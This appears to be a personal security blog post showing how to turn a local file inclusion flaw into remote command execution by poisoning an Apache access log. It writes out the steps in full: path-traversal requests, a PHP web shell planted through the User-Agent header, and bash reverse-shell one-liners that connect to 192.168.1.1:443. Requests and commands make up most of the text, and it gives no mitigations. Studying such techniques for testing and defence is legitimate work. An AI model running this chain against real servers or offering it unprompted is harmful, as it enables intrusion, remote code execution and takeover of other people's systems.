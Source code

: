 ```yaml
---
layout: post
title: Local File Inclusion - Apache User Agent Exploit
titledate: 08/29/23
tags: ["infosec","offsec", "web", "lfi", "shell", "exploit", "http"]
---
```


<h4>Apache Web Server Log Poisoning</h4>

In this example, it is possible to inject a script via the HTTP User-Agent header into the Apache web server access log.

    GET /meteor/index.php?page=admin.php HTTP/1.1
    Host: vulnapp.com
    User-Agent: test here
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close

If we send an HTTP GET request via curl or burp to the server we can see the result of the User-Agent get logged 

    $ curl http://vulnapp.com/index.php?page=../../../../../../../../../var/log/apache2/access.log 

Using burp again or curl with the -A or --user-agent parameter we can try any string to verify that our agent is indeed showing up in the logs

With this vulnerability we can include some php to run system and let us execute commands by replacing the User-Agent with the following

    $ <?php echo system($_GET['cmd']); ?>

Now when we make a request to the access log and pass it the new argument cmd that we injected with our php script we should run the command via php's system

    GET /vulnapp/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls HTTP/1.1
    Host: vulnapp.com
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close

    <h3>NOTE: we removed the User-Agent header to keep from overwriting our injected script</h3>

Finally we can use the following bash 1-liner to attempt to establish a reverse tcp shell connection

    $ bash -i >& /dev/tcp/192.168.1.1/443 0>&1

The above command may fail if the command runs via sh and not bash, in which case

    $ bash -c "bash -i >& /dev/tcp/192.168.1.1/443 0>&1"

And of course we need to % [encode](https://www.urlencoder.org) our url

![_config.yml]({{ site.baseurl }}/images/web/lfi_shell.png)

burp seems to be much quicker and easier to work with for these types of attacks
